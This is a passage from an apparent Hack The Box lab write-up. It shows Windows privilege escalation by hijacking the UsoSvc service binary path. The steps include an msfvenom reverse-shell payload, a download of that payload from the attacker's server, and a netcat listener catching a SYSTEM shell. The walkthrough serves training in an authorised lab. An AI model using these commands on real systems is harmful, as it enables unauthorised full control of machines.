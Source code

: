 This means that if we can alter this path to point to the binary we want to execute. Let's do that now.

```
PS C:\windows\temp sc.exe config "UsoSvc" binPath="C:\Windows\Temp\shell.exe"
[SC] ChangeServiceConfig SUCCESS

S C:\windows\temp> sc.exe qc UsoSvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: UsoSvc
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 2   AUTO_START  (DELAYED)
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\Temp\shell.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Update Orchestrator Service
        DEPENDENCIES       : rpcss
        SERVICE_START_NAME : LocalSystem
```

Now the BINARY_PATH_NAME points to shell.exe in the Temp folder. Let's generate a binary and place it in the Temp folder.

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.X.X LPORT=5555 -f exe > shell.exe`

After generating the shell binary, let's serve it up and download it into the Temp folder.

On Remote: `Invoke-WebRequest -Uri http://10.10.X.X:8000/shell.exe -OutFile shell.exe`

Now, let's start the service to trigger the execution of the binary path. (Don't forget to start a reverse handler before that.)

```
PS C:\windows\temp> sc.exe start UsoSvc
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

The service failed to start because the binary path has been changed by us, so that's not surprising.

But did it execute successfully?

Yes it did.

```
root@kali:~/htb/remote# nc -nvlp 5555
listening on [any] 5555 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.180] 49787
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
